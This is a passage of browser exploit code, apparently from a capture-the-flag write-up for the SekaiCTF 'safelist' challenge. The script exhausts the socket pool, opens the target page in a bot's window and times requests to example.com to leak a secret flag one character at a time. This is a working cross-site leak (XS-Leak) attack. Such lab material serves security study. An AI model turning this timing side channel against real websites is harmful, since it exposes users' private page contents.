 ```html
      for (let i = 0; i < SOCKET_LIMIT; i++) {
        block(i, controller)
      }

      // Make the bot access the page with the posts
      window.open(
        "https://safelist.ctf.sekai.team/?" +
          Math.random().toString(36).slice(2),
        "pwn"
      )
      await new Promise((r) => setTimeout(r, 500))

      // start meassuring time to perform 5 requests
      let start = performance.now()
      await Promise.all([
        fetch("https://example.com", { mode: "no-cors" }),
        fetch("https://example.com", { mode: "no-cors" }),
        fetch("https://example.com", { mode: "no-cors" }),
        fetch("https://example.com", { mode: "no-cors" }),
        fetch("https://example.com", { mode: "no-cors" }),
      ])
      let delta = performance.now() - start
      document.title = delta
      controller.abort()

      log("test_" + c + "_" + i, delta)

      // Save time needed
      deltas.push(delta)
    }
    return deltas
  }

  // Check each char
  const pwn = async () => {
    // Try to leak each character
    for (let i = 0; i < alphabet.length; i++) {
      //Check the indicated char
      let deltas = await leak(alphabet[i])

      // Calculate mean time from requests to example.com
      let avg = deltas.reduce((a, v) => a + v, 0) / deltas.length

      // If greater than 250, the HTML code was injected (flag in index 0)
      if (avg > 250) {
        log("tests_pos_" + alphabet[i], deltas)
      }
      // Flag in the page
      else {
        log("tests_neg_" + alphabet[i], deltas)
      }
    }
  }

  window.onload = async () => {
    pwn()
  }
</script>
```

